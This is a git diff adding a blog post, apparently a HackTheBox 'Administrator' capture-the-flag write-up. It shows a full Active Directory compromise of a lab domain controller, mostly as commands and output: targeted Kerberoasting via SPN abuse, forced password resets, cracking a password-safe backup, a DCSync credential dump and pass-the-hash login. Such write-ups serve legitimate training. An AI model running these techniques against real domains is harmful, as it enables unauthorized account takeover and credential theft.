

Added Administrator Writeup

Changed region(s): [[0.0307, 0.0291, 0.7663, 0.9007], [0.4904, 0.5811, 0.9808, 0.9588]]

diff --git a/_posts/2025-04-19-htb-administrator.md b/_posts/2025-04-19-htb-administrator.md
@@ -1,0 +1,233 @@
+---
+layout: single
+title:  "HTB Administrator Writeup"
+seo_title: "Writeup for the HackTheBox Administrator Machine"
+date:   2025-04-19 10:01:00 +0200
+categories: ['HackTheBox', 'Windows', 'Active-Directory']
+classes: wide
+toc: true
+header:
+    teaser: "/assets/images/headers/Administrator.png"
+---
+
+As is common in real life Windows pentests, you will start the Administrator box with credentials for the following account: 
+```
+Username: Olivia 
+Password: ichliebedich
+```
+
+# Reconnaissance
+From our initial nmap scan, we see that we are dealing with a Windows Domain Controller. Notice that port 21 (FTP) is also open.
+
+```console
+$ nmap -sCV -v -oN admin.nmap 10.10.11.42
+Nmap scan report for 10.10.11.42
+Host is up (0.014s latency).
+Not shown: 988 closed tcp ports (conn-refused)
+PORT     STATE SERVICE       VERSION
+21/tcp   open  ftp           Microsoft ftpd
+| ftp-syst: 
+|_  SYST: Windows_NT
+53/tcp   open  domain        Simple DNS Plus
+88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-16 04:41:02Z)
+135/tcp  open  msrpc         Microsoft Windows RPC
+139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
+389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
+445/tcp  open  microsoft-ds?
+464/tcp  open  kpasswd5?
+593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
+636/tcp  open  tcpwrapped
+3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
+3269/tcp open  tcpwrapped
+Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
+
+Host script results:
+| smb2-security-mode: 
+|   3:1:1: 
+|_    Message signing enabled and required
+| smb2-time: 
+|   date: 2024-11-16T04:41:08
+|_  start_date: N/A
+|_clock-skew: 7h00m02s
+```
+
+We are given a domain user account with the following credentials: `olivia:ichliebedich`. Further enumeration reveals that this account has the PSRemoting privilege set.
+
+```console
+$ nxc smb 10.10.11.42 -u 'olivia' -p 'ichliebedich'
+SMB         10.10.11.42     445    DC               [+] administrator.htb\olivia:ichliebedich
+$ nxc winrm 10.10.11.42 -u 'olivia' -p 'ichliebedich'
+WINRM       10.10.11.42     5985   DC               [+] administrator.htb\olivia:ichliebedich (Pwn3d!)
+```
+
+We can either logon to the DC with Evil-WinRM and run SharpHound to collect information for BloodHound or run the BloodHound.py script.
+
+```console
+$ bloodhound-python -u 'olivia' -p 'ichliebedich' -ns 10.10.11.42 -d administrator.htb --zip -c All
+INFO: Found AD domain: administrator.htb
+INFO: Getting TGT for user
+INFO: Connecting to LDAP server: dc.administrator.htb
+INFO: Found 1 domains
+INFO: Found 1 domains in the forest
+INFO: Found 1 computers
+INFO: Connecting to LDAP server: dc.administrator.htb
+INFO: Found 11 users
+INFO: Found 53 groups
+INFO: Found 2 gpos
+INFO: Found 1 ous
+INFO: Found 19 containers
+INFO: Found 0 trusts
+INFO: Starting computer enumeration with 10 workers
+INFO: Querying computer: dc.administrator.htb
+INFO: Done in 00M 04S
+INFO: Compressing output into 20241117135611_bloodhound.zip
+```
+
+We now start BloodHound CE and import the zip file. After looking through the data, we see that we have a path from `olivia` to `benjamin`. Now `benjamin` is a member of the Share Moderators group, so we might get more access after comprimising his account.
+
+![](/assets/images/writeups/administrator/BH-path.png)
+
+# User
+As our starting account, we have the `GenericAll` permissions to the user `michael`. There are several ways we can abuse this privilege: we can either change the user's password or set an SPN on the account and perform a targeted Kerberoasting attack. Let's go for the latter as for the next user we already have to force a password change.
+
+```console
+$ bloodyAD --host 10.10.11.42 -d administrator.htb -u 'olivia' -p 'ichliebedich' set object michael servicePrincipalName -v 'fake/dc.administrator.htb'
+[+] michael's servicePrincipalName has been updated
+$ GetUserSPNs.py -dc-ip 10.10.11.42 'administrator.htb/olivia:ichliebedich' -request-user michael
+
+ServicePrincipalName       Name     MemberOf                                                       PasswordLastSet             LastLogon  Delegation 
+-------------------------  -------  -------------------------------------------------------------  --------------------------  ---------  ----------
+fake/dc.administrator.htb  michael  CN=Remote Management Users,CN=Builtin,DC=administrator,DC=htb  2024-10-06 03:33:37.049043  <never>               
+
+
+[-] CCache file is not found. Skipping...
+[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
+```
+
+If you get a `Clock skew too great` error just like me, just run this command that spawns a bash shell with the clock synced to the DC:
+```console
+$ faketime "$(ntpdate -q administrator.htb | cut -d ' ' -f 1,2)" bash
+```
+
+So now we can get the hash, copy it to a file and run hashcat to crack it.
+
+```console
+$ GetUserSPNs.py -dc-ip 10.10.11.42 'administrator.htb/olivia:ichliebedich' -request-user michael
+$ hashcat -m 13100 michael.hash $ROCkYOU
+```
+
+However, we are not able to crack the hash so let's proceed with the second method and reset the password for the user account. I will also immediately reset the account for Benjamin and check what access we have. From Linux we can use the `net rpc` command.
+
+```console
+$ net rpc password "michael" "newP@ssword2022" -U "administrator.htb"/"olivia"%"ichliebedich" -S "10.10.11.42"
+$ net rpc password "benjamin" "newP@ssword2022" -U "administrator.htb"/"michael"%"newP@ssword2022" -S "10.10.11.42"
+$ nxc smb 10.10.11.42 -u 'benjamin' -p 'newP@ssword2022' --shares
+
+SMB         10.10.11.42     445    DC               Share           Permissions     Remark
+SMB         10.10.11.42     445    DC               -----           -----------     ------
+SMB         10.10.11.42     445    DC               ADMIN$                          Remote Admin
+SMB         10.10.11.42     445    DC               C$                              Default share
+SMB         10.10.11.42     445    DC               IPC$            READ            Remote IPC
+SMB         10.10.11.42     445    DC               NETLOGON        READ            Logon server share 
+SMB         10.10.11.42     445    DC               SYSVOL          READ            Logon server share
+```
+
+Looks like we don't have any additional permissions on the SMB shares, so let's try the FTP share we found earlier.
+
+```console
+$ ftp 10.10.11.42 
+Connected to 10.10.11.42.
+220 Microsoft FTP Service
+Name (10.10.11.42:bashee): benjamin
+331 Password required
+Password: 
+230 User logged in.
+Remote system type is Windows_NT.
+```
+
+Bingo! We are logged in on the FTP share and find a `psafe3` backup file.
+
+```console
+ftp> dir
+229 Entering Extended Passive Mode (|||57646|)
+125 Data connection already open; Transfer starting.
+10-05-24  08:13AM                  952 Backup.psafe3
+226 Transfer complete.
+ftp> get Backup.psafe3
+local: Backup.psafe3 remote: Backup.psafe3
+229 Entering Extended Passive Mode (|||57650|)
+125 Data connection already open; Transfer starting.
+100% |*****************************************************************************************************|   952       60.39 KiB/s    00:00 ETA
+226 Transfer complete.
+WARNING! 3 bare linefeeds received in ASCII mode.
+File may not have transferred correctly.
+952 bytes received in 00:00 (60.08 KiB/s)
+```
+
+The backup file protected by a password, but we can decrypt it using `JohnTheRipper`.
+
+```console
+$ pwsafe2john.py Backup.psafe3 > pwsafe.hash
+$ john pwsafe.hash --wordlist=$ROCKYOU
+
+Loaded 1 password hash (pwsafe, Password Safe [SHA256 256/256 AVX2 8x])
+tekieromucho     (Backu)
+```
+
+With the password of the database, we can now use `pwsafe3` and see what is stored inside.
+
+![](/assets/images/writeups/administrator/pwsafe.png)
+
+We find the password for three users.
+
+![](/assets/images/writeups/administrator/pwsafe-emily.png)
+
+We can now log into the DC as Emily and grab the user flag.
+
+```console
+$ evil-winrm -i administrator.htb -u emily -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb"
+*Evil-WinRM* PS C:\Users\emily\Desktop> cat user.txt
+```
+
+# Root
+Emily also has `GenericWrite` access to `Ethan`. We can therefore perform the same attacks as before and perform a targeted Kerberoast attack. 
+
+![](/assets/images/writeups/administrator/BH-DCSync.png)
+
+From the BloodHound data we see that `ethan` has the `DS-Replication-Get-Changes` and the `DS-Replication-Get-Changes-All` permission on the domain `ADMINISTRATOR.HTB`. We can perform a DCSync attack after compromsing his account. Let's proceed!
+
+```console
+$ bloodyAD --host 10.10.11.42 -d administrator.htb -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' set object ethan servicePrincipalName -v 'fake2/dc.administrator.htb'
+$ GetUserSPNs.py -dc-ip 10.10.11.42 'administrator.htb/olivia:ichliebedich' -request-user ethan
+$ hashcat -m 13100 ethan.hash $ROCKYOU
+<HASH>:limpbizkit
+
+$ secretsdump.py 'administrator.htb/ethan:limpbizkit'@10.10.11.42 -just-dc-user administrator
+Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
+
+[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
+[*] Using the DRSUAPI method to get NTDS.DIT secrets
+Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
+[*] Kerberos keys grabbed
+Administrator:aes256-cts-hmac-sha1-96:9d453509ca9b7bec02ea8c2161d2d340fd94bf30cc7e52cb94853a04e9e69664
+Administrator:aes128-cts-hmac-sha1-96:08b0633a8dd5f1d6cbea29014caea5a2
+Administrator:des-cbc-md5:403286f7cdf18385
+[*] Cleaning up...
+```
+
+We have sucessfully compromised the domain and can now grab the root flag.
+
+```console
+$ evil-winrm -i 10.10.11.42 -u 'administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e'
+
+*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls
+
+Mode                 LastWriteTime         Length Name
+----                 -------------         ------ ----
+-ar---        11/17/2024  11:49 AM             34 root.txt
+
+$ nxc winrm 10.10.11.42 -u 'administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e' -x 'type Desktop\\root.txt'
+WINRM       10.10.11.42     5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb)
+WINRM       10.10.11.42     5985   DC               [+] Executed command (shell type: cmd)
+WINRM       10.10.11.42     5985   DC               <REDACTED>
+```
